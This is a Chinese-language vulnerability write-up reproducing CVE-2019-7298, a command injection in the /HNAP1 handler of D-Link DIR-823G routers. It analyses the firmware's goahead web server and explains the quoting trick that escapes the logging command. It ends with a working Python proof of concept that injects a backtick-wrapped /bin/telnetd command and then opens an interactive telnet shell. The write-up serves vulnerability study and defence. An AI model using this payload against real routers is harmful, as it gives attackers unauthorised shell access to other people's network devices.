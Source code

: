 ## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0);
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL.
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c

![image](.resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/8-20201014111446453.png)

`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。

![image](.resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/9-20201014111446456.png)

![image](.resource/%EF%BC%88CVE-2019-7298%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/10-20201014111446458.png)

另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP='192.168.0.1'
command ="'`/bin/telnetd`'"
length = len(command)

headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'#此处的Login可以替换为任何在function_list中的函数名
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```